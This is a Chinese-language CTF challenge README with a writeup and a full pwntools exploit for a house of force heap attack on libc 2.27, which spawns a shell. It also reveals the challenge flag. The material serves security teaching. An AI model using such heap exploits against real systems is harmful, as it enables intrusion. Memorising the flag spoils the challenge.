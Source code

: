 * 题目名称：Key
* 出题人：Qanux
* 题目类型：Pwn
* 题目难度：中等偏下
* 考点：house of force
* 描述：libc版本为2.27
* flag:XSCTF{h0u4e_0F_F0r4e_1s_v3rY_ea4y}
* other:release文件夹中的文件才是公布出去的题目  
        ctf_xinetd文件夹是打包好的docker环境
* writeup:  
# KEY
该题为简单的堆利用，用到的技巧为house of force  
有关house of force的原理可以网上搜索
这里只讲述几个需要注意的点：  
我们希望把堆块申请到0x601088这个地址，将这个地址加上0x10的大小的堆头和0x8的read函数的读入偏移后通过read函数写入数据的起始地址为
0x6010a0,这正是key变量所在的地址，我们将/bin/sh\x00写入即可getshell  
```python
top_heap = addr + 0xa0
```
top_heap的地址加0xa0是因为题目中free掉的0x90大小的chunk没有给top chunk所合并，而是进入到tcache中，泄露的地址为free掉的chunk的数据区域的头部(到下一个chunk的距离为0x80)。第二次申请了0x20大小的chunk，两者加起来为(0x80 + 0x20) 0xa0
```python
heap = 0x601088 - top_heap - 0x10
```
这后面-0x10是为了避免堆头部的16字节对偏移的影响  
个人建议：令top chunk移动到target地址所需的size的大小最好通过gdb调试来找(并不是每一次都可以通过单纯的计算得到正确的结果)  
#### 完整exp:  
```python
from pwn import *

p = remote("",)

context(arch='arm64', os='linux', log_level='debug')

def add(size,context):
    p.recvuntil('> ')
    p.sendline(b'1')
    p.recvuntil('size: ')
    p.sendline(str(size))
    p.recvuntil('data: ')
    p.send(context)

p.recvuntil('gift :D ')
addr = int(p.recvuntil('\n', drop = True),16)
top_heap = addr + 0xa0 #该地址为执行第一次add后的top chunk地址
success('addr:' + hex(top_heap))
heap = 0x601088 - top_heap - 0x10 
#这个地方如果不-0x10，top chunk的地址会因为heap头的影响+0x10(尽管我们申请的chunk的size为负数，但操作系统中为heap头分配内存计算时为正数，所以我们分配的chunk的最终偏移为负的size+正的0x10)，top chunk的地址变为0x601098

add(0x18,b'a'*0x10 + p64(0xffffffffffffffff))
add(heap,b'bbbb')
add(0x10,b'\x00'*8 + b'/bin/sh\x00')
p.recvuntil('> ')
p.sendline(b'2')

p.interactive()
```



